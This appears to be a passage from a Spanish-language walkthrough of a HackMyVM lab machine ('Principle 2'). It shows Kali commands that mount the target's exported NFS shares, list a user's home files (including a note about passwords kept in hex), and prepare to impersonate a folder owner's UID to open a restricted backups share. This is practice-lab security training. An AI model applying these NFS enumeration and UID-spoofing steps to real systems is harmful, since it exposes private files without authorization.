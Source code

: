 ```shell
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Principle 2]
└─# mount -t nfs 192.168.1.118:/home/byron /mnt/byron/
```

¡Bien, ya está montada! Pasemos a ver su contenido:

```shell
┌──(root㉿kali)-[/mnt/byron]
└─# ls -la
total 32
drwxr-xr-x 3 1001 test 4096 Nov 25 12:33 .
drwxr-xr-x 3 root root 4096 Feb 26 10:24 ..
lrwxrwxrwx 1 root root    9 Nov 25 12:33 .bash_history -> /dev/null
-rw-r--r-- 1 1001 test  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 1001 test 3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 1001 test 4096 Nov 23 07:13 .local
-rw-r--r-- 1 1001 test  114 Nov 19 18:55 mayor.txt
-rw-r--r-- 1 1001 test  219 Nov 23 07:22 memory.txt
-rw-r--r-- 1 1001 test  807 Apr 23  2023 .profile
```

Vemos dos ficheros, el más importante es **`memory.txt`**. Veamos su contenido:

```
Hermanubis told me that he lost his password and couldn't change it, thank goodness I keep a record of each neighbor with their number and password in hexadecimal. I think he would be a good mayor of the New Jerusalem.
```

Nos dice que el usuario **`Hermanubis`** ha perdido la contraseña y que no puede cambiarla. Por suerte, **`Byron`**, guarda las contraseñas en hexadecimal. Por el momento no sabemos a lo que se refiere, así que pasemos a ver la otra montura:

```shell
┌──(root㉿kali)-[/mnt/byron]
└─# mkdir /mnt/backups
```

```shell
┌──(root㉿kali)-[/mnt]
└─# mount -t nfs 192.168.1.118:/var/backups /mnt/backups/
```

Tratemos de entrar a la nueva montura creada:

```shell
┌──(root㉿kali)-[/mnt]
└─# cd backups 
cd: permission denied: backups
```

Vaya, no podemos entrar. Es normal, no somos los dueños de la carpeta, aunque nos podemos hacer dueños de la carpeta con bastante simpleza. Primero miraremos cómo se llama el dueño de la carpeta:

```shell
┌──(root㉿kali)-[/mnt]
└─# ls -la
total 44
drwxr-xr-x  4 root root    4096 Feb 26 18:56 .
drwxr-xr-x 18 root root    4096 Mar  6  2023 ..
drwxr--r--  2   54 backup 28672 Nov 28 19:00 backups
drwxr-xr-x  3 1001 test    4096 Nov 25 12:33 byron
```
